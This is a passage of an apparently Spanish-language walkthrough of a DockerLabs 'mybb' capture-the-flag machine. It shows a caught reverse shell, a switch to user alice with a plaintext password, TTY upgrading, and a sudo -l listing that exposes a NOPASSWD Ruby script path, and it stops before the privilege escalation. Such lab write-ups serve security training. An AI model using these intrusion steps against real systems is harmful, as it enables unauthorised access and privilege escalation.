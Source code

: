 ```
	...connect to [192.168.0.171] from (UNKNOWN) [192.168.0.171] 56572

www-data@kali:/var/www/mybb$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---
## Lateral Movement

```terminal
www-data@kali:/$ cat /etc/passwd | grep /bash$
root:x:0:0:root:/root:/bin/bash
alice:x:1001:1001:,,,:/home/alice:/bin/bash
```
El usuario alice tiene un shell válido configurado en /bin/bash. Accedo al usuario utilizando la contraseña previamente descubierta.

```terminal
www-data@kali:/$ su alice
Password: tinkerbell
$
```

---
## Privilege Escalation

Realizo el tratamiento de la TTY.

```terminal
script /dev/null -c bash
Script started, output log file is '/dev/null'.
alice@kali:/var/www/mybb$ ^Z
zsh: suspended  nc -lnvp 1234

/home/kali/Documents/dockerlabs/mybb:/home/kali/Documents/dockerlabs/mybb:-$ stty raw -echo;fg
[1]  + continued  nc -lnvp 1234
                               reset
reset: unknown terminal type unknown
Terminal type? xterm

alice@kali:/var/www/mybb$ export TERM=xterm
alice@kali:/var/www/mybb$ export SHELL=bash
alice@kali:/var/www/mybb$ stty rows 42 columns 86
```
```terminal
alice@kali:~$ sudo -l
Matching Defaults entries for alice on kali:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User alice may run the following commands on kali:
    (ALL : ALL) NOPASSWD: /home/alice/scripts/*.rb
```
